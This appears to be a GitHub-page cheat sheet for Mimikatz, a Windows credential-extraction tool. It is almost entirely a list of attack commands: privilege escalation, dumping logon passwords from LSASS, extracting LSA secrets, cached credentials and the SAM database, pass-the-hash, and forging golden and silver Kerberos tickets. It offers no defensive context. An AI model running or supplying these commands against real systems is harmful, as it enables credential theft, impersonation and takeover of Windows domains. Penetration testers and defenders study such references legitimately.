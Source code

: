 ## Overview

Mimikatz is a leading tool for extracting credentials from Windows systems.

### Key Commands

- Privilege Escalation
- privilege::debug
- token::elevate

### Dump Credentials

- sekurlsa::logonpasswords
- sekurlsa::wdigest
- sekurlsa::kerberos
- sekurlsa::tspkg

### LSA Secrets

- lsadump::secrets
- lsadump::cache

### SAM Database

- lsadump::sam

### Pass-the-Hash

- sekurlsa::pth /user:username /domain:domain /ntlm:hash /run:cmd.exe

### Golden Ticket

- kerberos::golden /user:username /domain:domain /sid:S-1-5-21-... /krbtgt:hash /ticket:ticket.kirbi

### Silver Ticket

- kerberos::golden /user:username /domain:domain /sid:S-1-5-21-... /target:target.domain /service:service /rc4:hash /ticket:ticket.kirbi

### Usage Methods

#### Direct Execution

```
mimikatz.exe
```

```
mimikatz  privilege::debug
```

```
mimikatz  sekurlsa::logonpasswords
```